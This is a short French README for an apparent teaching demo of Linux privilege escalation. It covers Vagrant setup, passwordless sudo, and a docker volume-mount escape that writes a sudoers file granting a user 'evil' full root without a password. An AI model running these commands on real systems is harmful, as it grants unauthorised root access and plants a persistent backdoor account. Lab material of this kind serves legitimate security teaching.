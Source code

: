 # Privilege escalation

Retrouvez la vidéo ici : https://www.youtube.com/watch?v=zLxW6Dvruy0&feature=youtu.be. 

## executer les exemples : 

```
$ git clone https://github.com/NeuronAddict/privesc-demo
$ cd privec-demo
$ vagrant up
$ vagrant ssh
```

## sudo sans passwd

```
$ id
$ sudo -i
#
```


## avec docker 

```
docker run -v /:/sysroot -it alpine:3
echo "evil ALL=(ALL) NOPASSWD: ALL" > /etc/sudoers.d/evil
```


